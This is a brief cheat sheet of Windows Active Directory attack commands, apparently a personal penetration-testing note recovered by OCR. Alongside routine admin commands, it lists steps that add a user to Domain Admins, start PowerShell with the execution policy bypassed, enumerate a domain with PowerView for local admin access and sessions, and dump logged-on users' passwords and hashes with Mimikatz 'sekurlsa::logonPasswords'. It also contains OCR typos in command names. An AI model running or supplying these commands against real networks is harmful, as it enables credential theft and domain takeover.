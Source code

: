 sysdm.cpl   #computer config
dsa.msc  #AD mgr,add delete user
net userusername passwd /add /domain     #add domain user
net group "Domain Admins" clare /add /domain   #add a user to dmmain admin group
gpupdate /force      #update the gp group policy. \n

net share sharename=c:\foldername          # share a folder
setspn HTTP/nameofhost(sql.inmy.com) inmy\sqladmin

powershell.exe -nop -exec bypass  #fireup the powershell



#Powerview to emulate the domain infor
  Import-Module .\PowerView.ps1
  Get-NetDOmain


  Get-NetUser | select cn

  Get-NetGroup
  Get-NetComputer

  Find-LocalAdminAccess  #important

  Get_NetSession -ComputerName $computerName  #get other user which has net session with this host& not guarantee to use
    
  Get-NetLoggedon -ComputerName $cumputername # get remote access from other user. & not guarantee to use


#mimikaz
  privilege::debug    #run this first, to test the privi of mimikaz

  sekurlsa::logonPasswords  #to view the passwd or passwd hash of user login this host


  
  
  

  
